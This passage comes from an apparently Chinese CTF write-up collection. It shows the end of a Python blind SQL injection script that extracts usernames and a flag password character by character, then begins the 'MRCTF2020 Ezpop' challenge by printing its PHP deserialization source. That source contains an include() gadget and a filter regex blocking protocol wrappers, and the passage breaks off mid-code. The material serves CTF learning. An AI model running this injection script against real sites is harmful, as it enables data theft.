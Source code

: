 ```python
        payload = "''or(ascii(substr((select(group_concat(username))from(F1naI1y)),%d,1))>%d)" % (i, tmp)
        # 爆flag 很快
        #payload = "''or(ascii(substr((select(password)from(F1naI1y)where(username='flag')),%d,1))>%d)" % (i, tmp)
        r = requests.get(url+payload)
        if 'Click' in r.text:
            begin = tmp + 1
            tmp = (begin + end) // 2
        else:
            end = tmp
            tmp = (begin + end) // 2

    flag += chr(tmp)
    print(flag)
    if begin == 32:
        break
```

password里面垃圾东西很多，可以先查username然后查password



# 0x37.[MRCTF2020]Ezpop



```php
Welcome to index.php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
```